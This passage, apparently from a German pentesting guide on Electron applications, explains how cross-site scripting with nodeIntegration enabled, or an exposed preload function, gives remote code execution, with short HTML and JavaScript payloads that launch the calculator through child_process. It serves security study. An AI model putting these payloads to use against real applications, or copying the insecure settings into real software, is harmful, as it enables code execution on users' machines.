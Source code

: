 ## RCE: XSS + nodeIntegration

Wenn **nodeIntegration** auf **ein** gesetzt ist, kann der JavaScript-Code einer Webseite die Node.js-Funktionen einfach durch Aufrufen von `require()` nutzen. Zum Beispiel ist der Weg, die Calc-Anwendung unter Windows auszuführen:
```html
<script>
require('child_process').exec('calc');
// or
top.require('child_process').exec('open /System/Applications/Calculator.app');
</script>
```
<figure><img src="../../../.gitbook/assets/image (1110).png" alt=""><figcaption></figcaption></figure>

## RCE: preload

Das in dieser Einstellung angegebene Skript wird **vor anderen Skripten im Renderer geladen**, sodass es **uneingeschränkten Zugriff auf Node-APIs** hat:
```javascript
new BrowserWindow{
webPreferences: {
nodeIntegration: false,
preload: _path2.default.join(__dirname, 'perload.js'),
}
});
```
Daher kann das Skript Node-Features auf Seiten exportieren:

{% code title="preload.js" %}
```javascript
typeof require === 'function';
window.runCalc = function(){
require('child_process').exec('calc')
};
```
{% endcode %}

{% code title="index.html" %}
```html
<body>
<script>
typeof require === 'undefined';
runCalc();
</script>
</body>
```
{% endcode %}

{% hint style="info" %}
**Wenn `contextIsolation` aktiviert ist, funktioniert das nicht**
{% endhint %}

## RCE: XSS + contextIsolation
